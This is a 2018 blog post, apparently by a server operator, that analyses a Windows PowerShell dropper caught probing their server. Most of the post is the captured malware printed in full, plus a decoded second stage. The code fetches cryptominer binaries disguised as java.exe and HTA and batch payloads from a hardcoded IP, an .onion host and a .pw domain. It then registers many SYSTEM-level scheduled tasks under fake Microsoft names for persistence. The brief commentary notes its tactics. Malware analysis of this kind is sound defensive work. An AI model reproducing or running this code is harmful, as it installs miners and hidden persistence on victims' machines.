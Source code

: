 ```yaml
---
title: "Dis-invited by User Agent Retry - Windows"
#author: "Author Name"
description: "The capture of that which eluded me previously"
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-06-28T00:00:00-00:00
draft: false
---
```


Finally, a chance to grab the Windows binaries that eluded me in my previous attempts during Dis-invited By User Agent.  I had the same attack probing my server this morning attempting to download and execute a Windows script, but this time I determined the correct user agent for the .Net WebClient class - it's blank.  The class, by default, doesn't send any headers...

curl -A "" hxxp://107.181.174.232/win/checking.ps1 -o checking.ps1

```powershell
$W = New-Object System.Net.WebClient
$arch = Get-WmiObject Win32_Processor | Select-Object -Exp AddressWidth
$priv = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
$osver =  ([environment]::OSVersion.Version).Major


Function win10() {
        mkdir C:\ProgramData\Oracle
        mkdir C:\ProgramData\Oracle\Java
	$W.DownloadFile("hxxp://107.181.174.232/win/bat/win10.bat","C:\Windows\Fonts\sasd.bat")
        cmd /c SCHTASKS /create /tn \Microsoft\Windows\MobilePC\DetectPC /sc MINUTE /f  /mo 10 /tr "cmd /c C:\Windows\Fonts\sasd.bat"  /ru "NT AUTHORITY\SYSTEM" 	
        cmd /c schtasks /tn \Microsoft\Windows\MobilePC\DetectPC /run
        cmd /c SCHTASKS /create /tn \Microsoft\Windows\Shell\WindowsShellUpdate /sc HOURLY /f  /mo 6 /tr "cmd /c mshta hxxp://107.181.174.232/win/update.hta"  /ru "NT AUTHORITY\SYSTEM"   /RL HIGHEST
        cmd /c SCHTASKS /create /tn \Microsoft\Windows\Shell\WinShell /sc DAILY /f  /mo 1 /tr "cmd /c mshta hxxp://107.181.174.232/win/checking.hta"  /ru SYSTEM   /RL HIGHEST
        cmd /c SCHTASKS /create /tn \Microsoft\Windows\UPnP\UPnPHost /sc DAILY /f  /mo 2 /tr "cmd /c mshta hxxp://52irwh2dmhkuhbv5.onion.to/win/checking.hta"  /ru SYSTEM   /RL HIGHEST
        cmd /c SCHTASKS /create /tn \Microsoft\Windows\Registry\RegBackup /sc MINUTE /f  /mo 5 /tr "cmd /c schtasks /tn \Microsoft\Windows\Bluetooth\UpdateDeviceTask /run"  /ru "NT AUTHORITY\SYSTEM"   /RL HIGHEST
	break
	kill $pid
}


Function PrivTrue() {
	mkdir C:\ProgramData\Oracle
	mkdir C:\ProgramData\Oracle\Java
	IF ($arch -eq "64")
	{
	        $W.DownloadFile("hxxp://107.181.174.232/win/min/64.exe","C:\ProgramData\Oracle\Java\java.exe")
	}
	        ELSE
	{
		$W.DownloadFile("hxxp://107.181.174.232/win/min/32.exe","C:\ProgramData\Oracle\Java\java.exe")
	}
	cmd /c schtasks  /create /TN \Microsoft\Windows\Bluetooth\UpdateDeviceTask /TR "C:\ProgramData\Oracle\Java\java.exe" /ST 00:00 /SC once /DU 599940 /RI 1 /F /RL HIGHEST /RU SYSTEM
	cmd /c SCHTASKS /create /tn \Microsoft\Windows\Shell\WindowsShellUpdate /sc HOURLY /f  /mo 6 /tr "cmd /c mshta hxxp://107.181.174.232/win/update.hta"  /ru "NT AUTHORITY\SYSTEM"   /RL HIGHEST	
	cmd /c SCHTASKS /create /tn \Microsoft\Windows\Shell\WinShell /sc DAILY /f  /mo 1 /tr "cmd /c mshta hxxp://107.181.174.232/win/checking.hta"  /ru SYSTEM   /RL HIGHEST
	cmd /c SCHTASKS /create /tn \Microsoft\Windows\UPnP\UPnPHost /sc DAILY /f  /mo 2 /tr "cmd /c mshta hxxp://52irwh2dmhkuhbv5.onion.to/win/checking.hta"  /ru SYSTEM   /RL HIGHEST
	cmd /c SCHTASKS /create /tn "\Microsoft\Windows\EDP\EDP App Lock Task"  /sc hourly /f  /mo 22 /tr "cmd /c mshta hxxp://asq.r77vh0.pw/win/checking.hta"  /ru SYSTEM
	cmd /c SCHTASKS /create /tn \Microsoft\Windows\Registry\RegBackup /sc MINUTE /f  /mo 5 /tr "cmd /c schtasks /tn \Microsoft\Windows\Bluetooth\UpdateDeviceTask /run"  /ru "NT AUTHORITY\SYSTEM"   /RL HIGHEST 
	cmd /c schtasks /tn  \Microsoft\Windows\Bluetooth\UpdateDeviceTask /run
	$W.DownloadFile("hxxp://107.181.174.232/win/sasd.bat","C:\Windows\Fonts\sasd.bat")
	cmd /c SCHTASKS /create /tn \Microsoft\Windows\MobilePC\DetectPC /sc MINUTE /f  /mo 10 /tr "cmd /c C:\Windows\Fonts\sasd.bat"  /ru "NT AUTHORITY\SYSTEM"   
	
}

Function PrivFalse() {
	W.DownloadFile("hxxp://107.181.174.232/win/privfalse.bat","$env:APPDATA\Microsoft\Network\PrivFalse.bat")
	cmd /c SCHTASKS /create /tn "Optimize Start Menu Cache Files-S-3-5-21-2236678155-433519125-1142214968-1037" /sc MINUTE /f  /mo 5 /tr "cmd /c %appdata%\Microsoft\Network\PrivFalse.bat"
	cmd /c SCHTASKS /create /tn "Optimize Start Menu Cache Files-S-3-5-21-2236678155-433529325-1142214968-1037" /sc HOURLY /f  /mo 22 /tr "cmd /c mshta hxxp://107.181.174.232/win/checking.hta"
	cmd /c SCHTASKS /create /tn "Optimize Start Menu Cache Files-S-3-5-21-2236678155-433529325-1142214968-1137" /sc HOURLY /f  /mo 20 /tr "cmd /c mshta hxxp://asq.r77vh0.pw/win/checking.hta"
}

Function CleanerEtc() {
	$W.DownloadFile("hxxp://107.181.174.232/win/del.ps1","C:\Windows\Fonts\del.ps1")
	C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate" /tr "cmd /c powershell -exec bypass C:\Windows\Fonts\del.ps1" /ru SYSTEM /sc HOURLY /mo 4 /create
}

Function PrivFalsemStop() {
	cmd /c schtasks /tn "Optimize Start Menu Cache Files-S-3-5-21-2236678155-433519125-1142214968-1037" /delefe /f
	cmd /c wmic process where executablepath="C:\\ProgramData\\Oracle\\Java\\java.exe" delete 
        start-sleep 1
	cmd /c del /q /f "C:\ProgramData\Oracle\Java\java.exe"
}

Function PrivTrueMStop() {
	cmd /c schtasks /tn \Microsoft\Windows\Registry\RegBackup /delete /f
	cmd /c schtasks /tn \Microsoft\Windows\Bluetooth\UpdateDeviceTask /end
	cmd /c wmic process where executablepath="C:\\ProgramData\\Oracle\\Java\\java.exe" delete 
	start-sleep 1
	cmd /c del /q /f C:\ProgramData\Oracle\Java\java.exe
}


IF ($osver -eq "10")
{
	echo "win10"
	win10
}

IF ($priv -eq $true)
{
	PrivTrueMStop
	start-sleep 5
	PrivTrue
}
else
{
	PrivFalsemStop
	PrivFalse
}
CleanerEtc
#cmd /c powershell  -w 1 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command iex ((New-Object System.Net.WebClient).DownloadString('hxxp://107.181.174.232/win/sc.ps1'))
cmd /c taskkill /im mshta.exe /f
```

Finally, awesome.  And a whole bunch of other great stuff to download too, including a bunch of stuff VirusTotal hasn't seen yet.

The main tactic used in here is setting up persistence using scheduled tasks - an oldie but a goodie.

Lots of use of [mshta](https://attack.mitre.org/wiki/Technique/T1170) too...  Pretty cool.  This allows execution of VBScript, which re-downloads and executes the checking.ps1.

Dropping a fake Java...  Nice.  Makes it look like the executable isn't unfriendly...  But at least the 32-bit version is UPX packed.

privfalse.bat contains some powershell which looks like it does some text replacement, maybe base64 decoding, then executes the result.  Here's the un-base64 encoded version...

```powershell
$arch = Get-WmiObject Win32_Processor | Select-Object -Exp AddressWidth
$WebClient = New-Object System.Net.WebClient
mkdir C:\ProgramData\Oracle\Java > $null
if((Test-Path $env:Temp\waqs.txt) -eq $true)
{
	echo "Pass"
} else {
echo "98098" > $env:Temp\waqs.txt
}
$pidm = Get-Content $env:Temp\waqs.txt 


if((Test-Path C:\ProgramData\Oracle\Java\java.exe) -eq $true)
{
    echo "pass miner"
} 
else {
	
		IF ($arch -eq "64")
		{
			$WebClient.DownloadFile("hxxp://107.181.174.232/win/min/64.exe","C:\ProgramData\Oracle\Java\java.exe")
		}
				ELSE
		{
			$WebClient.DownloadFile("hxxp://107.181.174.232/win/min/64.exe","C:\ProgramData\Oracle\Java\java.exe")
		}
}

if((get-process -id $pidm -ErrorAction SilentlyContinue) -eq $Null){ 
			(invoke-wmimethod win32_process -name create -argumentlist 'C:\\ProgramData\\Oracle\\Java\\java.exe').ProcessId > $env:Temp\waqs.txt
	}

	else{ 
		echo $null
}
```


